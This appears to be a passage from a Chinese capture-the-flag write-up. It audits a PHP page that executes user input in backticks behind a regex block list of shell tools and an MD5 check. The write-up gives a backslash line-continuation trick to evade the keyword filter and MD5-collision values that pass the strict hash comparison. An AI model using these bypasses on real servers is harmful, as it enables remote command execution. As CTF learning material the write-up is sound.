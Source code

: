 ```
echo $cmd;
echo "<br>";

if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {

    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:
}
</style>
<body>
</body>
</html> 
```

解码后，进行代码审计,具体内容见上

好家伙，我学了一招，`linux`下命令行尾部输`\`可以换行并继续输入命令，与上一行进行连接，命令可以正常执行，用这一特性可以绕过全字匹配的正则匹配

举个例子
![在这里插入图片描述](img/886f9e1905ea8c8e78f8eeff6d024531.png)
绕过强制类型转换MD5强比较
`a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2`

`b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2`

*   没有过滤`.`和`/`我们直接在这里面找 `flag`
    ![在这里插入图片描述](img/d029f0683424908336e8af48e96d9615.png)
